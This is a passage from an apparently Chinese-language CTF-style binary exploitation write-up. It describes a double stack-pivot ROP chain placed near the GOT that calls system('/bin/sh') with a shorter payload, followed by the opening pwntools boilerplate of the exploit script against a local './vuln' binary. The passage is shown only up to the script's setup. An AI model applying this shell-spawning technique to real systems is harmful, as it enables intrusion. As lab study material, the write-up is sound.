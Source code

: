 

![](image-20231207160329936.png)



这样利用需要发送0x200 bytes的payload，有没有什么方法再缩短一下？请看下文。



### 0x03. fx2

上面这样ROP有个问题，为了让payload尽可能短，我们放ROP的位置其实离GOT0很近，而GOT0的低地址处就是ro page和rw page的交界处。而stack是向低地址生长的，因此我们我们调用`system`这样的函数，rsp很容易一不小心就顶到头从而崩溃。

为了调用system从而缩短payload，我们可以做两次栈迁移。大致思路如下：

1. 调用 `pop rsp; ret` 将栈迁移到GOT中的ROP gadget处
2. 调用 `pop rdi; ret`设置rdi到"/bin/sh"
3. 调用`pop rax; ret`设置rax到system
4. 调用gadget`pop rsp; .*jmp rax`完成二次栈迁移且跳转到system完成利用



- 完整代码：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln')
libc = ELF("./libc-2.35.so")

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'

```